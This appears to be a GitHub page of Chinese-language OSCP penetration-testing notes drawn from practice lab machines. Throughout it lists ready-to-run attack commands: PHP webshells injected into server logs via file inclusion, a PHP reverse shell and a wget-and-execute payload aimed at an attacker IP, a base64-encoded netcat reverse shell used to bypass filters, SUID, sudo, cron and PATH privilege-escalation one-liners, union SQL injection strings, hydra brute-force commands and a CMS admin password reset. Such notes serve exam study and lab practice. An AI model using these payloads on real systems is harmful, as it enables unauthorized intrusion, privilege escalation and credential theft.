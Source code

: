 # OSCP
**目录扫描**
1. nikto
2. dirb
  a. dirb http:// IP or URL
  b. dirb http:// IP or URL -X .php,.txt -指定后缀名
3. dirbuster
4. robots.txt文件

**LFI**
1. ssh可访问日志: /var/log/auth.log。用ssh ‘<?php system($_GET[‘csd’]);?>’来上传一句话木马来反弹shell。
2. Nginx的可访问日志位置/var/log/nginx/access.log，用Burp上传一句话木马<?php system($_GET[‘cmd’]);?>
3. Apache access and error logs (/var/log/apache2/access.log and /var/log/apache2/error.log).

**反弹shell**
1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
2.php-reverse-shell.php - 修改ip和port

**Wordpress:**
1. wpscan扫描插件 + searchsploit
2. Themes --> Editior --> 找个可以修改的php
3. Plugins -> Add New -> this page

**Drupal**
1. 安装php包(https://www.drupal.org/project/php)
2. 下载好后在Extend下安装PHP模板
3. 安装成功后激活模板
4. 创建php页面来反弹shell

**weevly（IMF靶机）**
1. weevly generate 1234 shell.php
2. weevly http://xxx.xxx.xxx.xxx/.../.../shell.php 1234

**PHPLiteAdmin**
1. 在test_db.php下创建一个数据库，然后再创建一个表格，上传php代码，即可被执行
2. 创建了一个csd的数据库，再在数据库下传教一个表格。然后在value下写入php代码。这里先采用了exp中的<?php phpinfo()?>进行尝试。写入成功后，用之前的文件包含漏洞访问csd.php(文件具体位置在数据库中可见)。
3. 先在kali机上进入/var/www/html目录，创建shell.txt文件。然后在shell.txt文件内写入<?php $sock=fsockopen("192.168.9.77",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>
4. 修改Default Value，设置为<?php system("wget 192.168.9.77/shell.txt -O /tmp/shell.php;php /tmp/shell.php");?>

**哈希加密**
1. john工具：
  a. john --wordlist=xxx password.txt (指定字典)
  b. john password.txt --show
2. Crackstation：https://crackstation.net/
3. echo “xxxxx” | base64 -d
4. Argon2加密（Typo3）

**提权**
1. 查找suid
  a. find / -perm -u=s -type f 2>/dev/null
  b. find / -user root -perm -4000 -print 2>/dev/null
  c. find / -user root -perm -4000 -exec ls -ldb {} \
2. sudo权限
  a. sudo -l查看权限
  b. 查看相关sudo命令的用法
3. vim提权
  a. :set shell=/bin/bash
  b. :shell
4. nmap提权
  a. 交互式（有版本限制）
    1) --interactive进入交互式界面，
    2) !sh
  b. 利用脚本
    1) echo 'os.execute("/bin/sh")' > getShell
    2) sudo nmap --script=getShell
5. find提权
  a. find . -exec /bin/sh -p \; -quit
  b. find test -exec /bin/bash \;
6. gdb提权
  a. gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
7. 利用定时任务crontab来提权
  a. 找到系统中会被root定时执行的脚本
  b. echo "Payload" > 脚本
  c. Kali开启监听，等待root执行反弹shell
8. 环境变量提权（Escalate_Linux）
  a. 查看可用脚本
  b. cd /tmp
  c. 根据要求写文件（例如echo “nc - c /bin/bash ” > ls）
  d. chmod 777 ls
  e. export PATH=/tmp:$PATH
  f. 执行脚本
9. Python提权：
  a. python -c ‘import os; os.system(“/bin/sh”)’
10. zip提权：
  a. 进入tmp目录，创建一个exploit文件
  b. sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="sh -c /bin/bash"
11. 内核提权
  a. uname -a查看内核版本号
  b. searchsploit查找相关exp

**命令执行**
1. 绕过：
 a. 用单引号（例如c’a’t）
 b. echo + base64加密绕过：
 c. echo bmMgLWMgL2Jpbi9iYXNoIDE5Mi4xNjguOS43NyAxMjM0 |base64 -d | bash

**Web扫描**
1. joomla - joomscan
2. Wordiness - wpscan

**SQL注入**
1. sqlmap
  a. 一般模式：sqlmap - u “xxx” --dbs ---> sqlmap -u “xxx” -D x --tables ---> sqlmap -u “xxx” -D x -T x --columns ---> sqlmap -u “xxx” -D x -T x -C “x,y” --dump-all
  b. 带有session的：
      用Burp截包保存为本地文件（例如sql.txt）
      sqlmap -r sql.txt --dbs .... or sqlmap --cookie ID
2. 手工sql注入
  a. 用 ’ 或者 ’ 1=1 or(and) #(-- ) + ’ 1=2 or(and) #(-- )来判断是否有SQL注入
  b. unionselect语句
      1) Order by + 数字
      2) 若Order by 不成功则从1开始逐个尝试
      3) ' union select group_concat(schema_name),2,3,4,5,6 from information_schema.schemata#
      4) ' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema="xxx"# - 数据库名
      5) ' union select group_concat(table_name),2,3,4,5,6 from xxx.tables where table_schema="yyy"# - 表名
      6) ' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name="zzz" - 表的内容
      7) ' union select group_concat(具体信息),2,3,4,5,6 from Staff.StaffDetails#

**爆破**
1. Burpsuite
2. rockyou.txt
3. cewl http://IP(URL) -w xxx.txt
4. hydra 
  hydra: hydra -L user.txt -P password.txt xxx.xxx.xxx.xxx(ip) ssh
  hydra -l otis -P /usr/share/wordlists/rockyou.txt 192.168.0.36 http-post-form '/monitoring/index.php:username=^USER^&PASSWORD=^PASS^&Login=Login:Sign In'
5. 模糊测试爆破目录wfuzz（psl1靶机里出现）
  wfuzz -c -w wordlist --hc 404 --hl 6(过滤) http://IP
6. fcrackzip工具尝试爆破压缩包密码
7. stegcracker可以爆破图片信息
8. steghide -u -D -p /usr/share/wordlist/rockyou.txt <filename>爆破图片隐写

**信息搜集**
1. 网页：	
2. 关键字
3. 源码
4. js脚本
5. OS
6. /home/目录下
7. /var/www/下

**杂项**
1. gpg解密(靶机Bob)
2. 跳转域名没法解析：修改/etc/hosts
3. 交互式界面python -c 'import pty; pty.spawn("/bin/bash")' 
4. 端口敲击开放filtered - /etc/knockd.conf
    nc IP port
    Nmap -r -p ports IP 
5. 图片
    base64解密生成图片（Fristileaks靶机里出现）
    下载下来查看备用信息
6. getcap -r / 2>/dev/null查看可用的capability
7. ssh -i id_rsa user@IP（ssh带密钥登录）
8. string读取二进制文件
9. crunch生成字典（TommyBoy靶机）
10。 file code（w34kn3ss）查看文件运用语言
11. uncompyle2/6 - python反编译
12. 查找特殊权限getcap -r / 2>/dev/null
13. Flask = Python + Werkzeug
14. Gobuster vhost 扫描域名。

**Mysql**
1. update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'admin'))) where username = 'admin'; root用户修改密码。


















